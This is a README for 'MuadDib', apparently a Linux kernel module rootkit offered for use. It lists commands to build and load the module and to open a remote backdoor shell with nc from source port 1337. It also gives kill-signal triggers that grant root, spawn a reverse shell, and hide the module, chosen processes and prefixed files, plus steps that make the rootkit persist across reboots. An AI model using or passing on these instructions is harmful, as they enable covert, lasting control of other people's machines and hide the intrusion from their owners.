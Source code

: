 # MuadDib
Linux Kernel Module (LKM) Rootkit that works with linux kernel versions 5.13 and (hopefully) below.

## Installation
Just run the Makefile and insert the module.
```
make
insmod muadDib.ko
```
## Usage
### Accept Backdoor
To remotely get a shell, send a request from a specified source port (default 1337)
```
nc xxx.xxx.xxx.xxx 22 -p 1337
```
### Get root
When on the machine, root can be acquired via kill hook
```
kill -64 9999
```
Any PID works
### Spawn reverse shell
Also works using kill hook
```
kill -42 9999
```
### Hide muadDib LKM
Again, using kill
```
kill -43 9999
```
When hidden, running this again will show it
### Hide Process
```
kill -44 [PID to hide]
```
### Hide files
All files containing PREFIX [default MUADDIB] are hidden
### Misc
There is also a mkdir and execve hook just as a POC, have not found a use yet.

### Persistence
Copy muadDib.ko to /lib/modules/$(uname -r)/kernel/drivers/ 
echo muadDib to /etc/modules
sudo depmod 

## Tested on
Ubuntu 20.04.1 x86_64 Linux 5.13.0

## Resources/References:
	https://xcellerator.github.io/
	https://github.com/xcellerator/linux_kernel_hacking
	https://github.com/ilammy/ftrace-hook
	https://github.com/h3xduck/Umbra
